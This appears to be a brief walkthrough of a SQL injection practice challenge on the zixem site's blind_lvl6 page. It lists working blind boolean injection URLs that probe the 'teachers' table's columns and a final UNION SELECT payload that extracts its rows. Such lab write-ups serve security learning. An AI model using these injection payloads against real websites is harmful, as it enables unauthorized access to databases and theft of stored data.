

vulnerable Url: https://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10

Steps:
1- get number of columns using  Order: 4
2- check name of columns using Blind sql injection 
https://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%20(SELECT%20%27a%27%20from%20teachers%20where%20teacher=%27Niiice%20One!%27)=%27a%27--+ : checing name of teach column 
https://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%20(SELECT%20%27a%27%20from%20teachers%20where%20id=21)=%27a%27--+ : checking if id or serial exists in tables

https://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%20(SELECT%20%27a%27%20from%20teachers%20where%20teacher_age=21)=%27a%27--+ : checking age column

https://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%20(SELECT%20%27a%27%20from%20teachers%20where%20price=21)=%27a%27--+ : checking price

Injected Url: https://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=-1%20UNION%20select%20id,%20teacher,%20teacher_age,%20price%20from%20teachers%20where%20id%20=%2011--+

